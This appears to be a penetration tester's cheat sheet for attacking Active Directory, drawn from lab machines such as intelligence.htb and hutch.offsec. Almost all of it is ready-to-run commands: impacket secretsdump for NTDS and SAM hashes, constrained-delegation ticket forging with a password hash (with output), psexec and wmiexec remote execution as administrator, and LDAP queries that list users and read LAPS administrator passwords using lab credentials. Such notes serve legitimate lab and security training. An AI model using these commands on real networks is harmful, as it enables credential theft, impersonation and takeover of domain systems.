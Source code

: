 **secretsdump**
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

**Grab sid**
```bash
lookupsid.py dom.htb/nuri.jeon:password@192.168.x.x
```

**constrained delegation**
```bash
┌──(root㉿kali)-[~/tools/gMSADumper]
└─# impacket-getST -dc-ip 10.10.10.248 -spn 'WWW/dc.intelligence.htb' -impersonate administrator -hashes :5ecbb8825fa84b3154a7f12336795ed4 'intelligence.htb/SVC_INT$'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

**psexec**
```bash
# authenticate with ticket
KRB5CCNAME=administrator.ccache psexec.py -k -no-pass administrator@dc.intelligence.htb 
```

**wmiexec**
```bash
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```

### LDAPSearch focus on samaccount and description
```bash
# unauthenticated
ldapsearch -x -H ldap://192.168.216.122 -D 'hutch.offsec' -s base namingcontexts
ldapsearch -x -H ldap://10.10.10.248 -D 'intelligence\Tiffany.Molina' -w 'NewIntelligenceCorpUser9876' -b "DC=intelligence,DC=htb" -s sub "(&(objectclass=user))"
ldapsearch -x -H ldap://192.168.216.122 -D 'hutch.offsec'  -b 'DC=hutch,DC=offsec' > ldap_search.txt
--> If we get the results
  # cat ldap_search.txt | grep -i "samaccountname" > raw_users.txt
  # cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
  # user users.txt with kerbrute 

# authenticated(LAPS found from SYSVOL)
ldapsearch -x -H 'ldap://192.168.216.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

# Grab usernames(but could be risky based on vulnlab baby)
ldapsearch -x -H ldap://192.168.216.122 -D 'hutch.offsec'  -b 'DC=hutch,DC=offsec' | awk -F: '{ print $2 }' |  awk '{ gsub(/ /,""); print }'
```
